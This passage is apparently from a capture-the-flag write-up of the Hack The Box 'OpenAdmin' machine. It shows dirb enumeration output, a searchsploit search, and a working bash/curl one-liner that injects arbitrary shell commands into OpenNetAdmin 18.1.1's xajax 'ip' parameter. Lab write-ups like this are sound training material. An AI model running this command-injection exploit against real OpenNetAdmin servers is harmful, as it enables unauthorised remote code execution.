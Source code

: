     -----------------
    DIRB v2.22
    By The Dark Raver
    -----------------

    START_TIME: Tue Jan  7 04:29:49 2020
    URL_BASE: http://10.10.10.171/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612

    ---- Scanning URL: http://10.10.10.171/ ----
    ==> DIRECTORY: http://10.10.10.171/artwork/
    + http://10.10.10.171/index.html (CODE:200|SIZE:10918)
    ==> DIRECTORY: http://10.10.10.171/music/
    + http://10.10.10.171/server-status (CODE:403|SIZE:277)

The artwork directory is a rabbit hole (there is no dynamic code even for the
contact page) but it was found first by dirb.

![Artwork page](/media/2020.05/openadmin_2.png)

The music directory offer a login page which redirect us to the ona webpage.

![Music page](/media/2020.05/openadmin_3.png)

![Music page](/media/2020.05/openadmin_4.png)

## OpenAdmin

We can see on the ona (opennetadmin) that the version is the 18.1.1 which is not
the latest. Using searchsploit we found a exploit for this specific version.

    :::text
    searchsploit opennetadmin
    ------------------------ ----------------------------------------
     Exploit Title          |  Path
                            | (/usr/share/exploitdb/)
    ------------------------ ----------------------------------------
    OpenNetAdmin 13.03.01 - | exploits/php/webapps/26682.txt
    OpenNetAdmin 18.1.1 - R | exploits/php/webapps/47691.sh
    ------------------------ ------------------------------------

The script was not working out of the box for me so I "rewrote" it (it is a
oneliner in bash).

    :::bash
    CMD="${1}"
    curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${CMD};echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/"  | sed -n -e '/BEGIN/,/END/ p'
